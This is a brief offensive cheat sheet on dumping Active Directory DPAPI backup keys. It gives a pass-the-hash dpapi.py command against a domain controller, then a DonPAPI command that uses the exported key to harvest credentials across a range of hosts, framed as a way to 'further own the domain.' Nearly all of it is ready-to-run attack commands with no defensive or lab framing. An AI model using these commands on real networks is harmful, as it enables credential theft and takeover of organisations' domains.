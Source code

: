 # DPAPI Backup Keys dumping

## Tools: dpapi.py , DonPAPI

    dpapi.py backupkeys -hashes':HASH' -t Administrator@DC_IP --export

### Then

    DonPAPI -pvk DOMAIN_BACKUP_KEY.PVK -H':HASH' DOMAIN/USER@IP_RANGE

### With this technique, we dump credentials to further own the domain
